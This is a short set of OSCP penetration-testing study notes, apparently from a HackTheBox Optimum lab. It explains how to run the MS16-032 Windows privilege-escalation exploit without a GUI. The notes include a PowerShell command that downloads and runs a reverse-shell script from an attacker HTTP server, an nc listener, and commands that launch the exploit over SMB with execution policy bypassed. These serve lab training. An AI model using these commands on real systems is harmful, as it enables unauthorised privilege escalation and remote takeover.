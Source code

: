 # OSCP-Notes
Generic Notes Regarding OSCP:

1.[ Misc](#misc)

## Misc:

### MS16-032 Non-GUI Method:
By default, this exploit requires GUI access on the victim. A modified ```Invoke-MS16032.ps1``` variant by [empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) provides a workaround.

You will need a smbserver and python http server both serving the folder containing your .ps1 exploit and reverse shell. 

This should be already covered whilst in the previous parts of the pentesting process.

 Add this line to the end of the above ```Invoke-MS16032.ps1``` script:
```Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://<your attacker IP where your python3 http server is serving your working folder for exploits etc.>/<your nishang .ps1 reverse shell script>')"```.

IE: ``` Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"```.

Then setup a listener ```sudo rlwrap nc -lvnp <port of choice used in http://10.10.14.10/Invoke-PowerShellTcp.ps1 >```.



Lastly, run using correct powershell like this:
 ```C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass -File \\<your attacker IP>\<foldername used in smbserver.py>\Invoke-MS16-032.ps1```.
 
 If the x86 powershell does not work, use the x64 one here:
 ```C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe -ep bypass -File \\<your attacker IP>\<foldername used in smbserver.py>\Invoke-MS16-032.ps1```.

- 1.[https://0xdf.gitlab.io/2021/03/17/htb-optimum.html](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html) 
- 2.[https://ivanitlearning.wordpress.com/2020/08/01/hackthebox-optimum/](https://ivanitlearning.wordpress.com/2020/08/01/hackthebox-optimum/)

### Powershell Script Not Running
Sometimes, when ```.ps1``` exploits do not work, it may be due to how the default ```powershell.exe``` used is incorrect.
In this case, try to use: ```C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe``` instead, this will call the x64 version of powershell which may be what is needed for kernel exploits since by default, the x86 powershell is run instead in  ```C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe```.
